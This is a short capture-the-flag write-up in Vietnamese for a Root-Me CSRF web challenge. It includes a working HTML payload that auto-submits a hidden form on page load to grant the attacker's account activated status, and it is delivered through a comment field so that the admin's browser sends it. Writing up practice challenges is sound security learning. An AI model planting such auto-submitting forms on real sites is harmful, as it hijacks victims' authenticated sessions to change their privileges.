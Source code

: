 Đầu tiên tạo user, login, truy cập thẻ private thì hiện thông báo phải được admin kích hoạt mới access được. Checkbox thì bị disabled, enable rồi gửi request cũng không được, có vẻ chỉ admin với admin cookie mới có quyền làm thế.

Vì tiêu đề CSRF cũng đã gợi ý cho chúng ta khá nhiều, ta sẽ lợi dụng cookie của admin như sau: dụ admin load 1 `input form` của mình(status checkbox phải có thuộc tính `checked` rồi),  sẽ có 1 hàm javascript ép submit cái form đó ngay khi body được load. Cụ thể như sau:

```html
<html>
<head>
<script>
function forcesubmit() {document.getElementById("my-form").submit()}
</script>
</head>
<body onload="forcesubmit()">
<form action="http://challenge01.root-me.org/web-client/ch22/?action=profile" id="my-form" method="post" enctype="multipart/form-data">
<input type="text" name="username" value="dang">
<input type="checkbox" name="status" value="checked" checked>
</form>
</body>
</html>
```

value trong input username phải là username vừa được tạo mới. Gửi form trên trong ô Comment của phần Contact, đợi 2p vào tab Private ta sẽ có password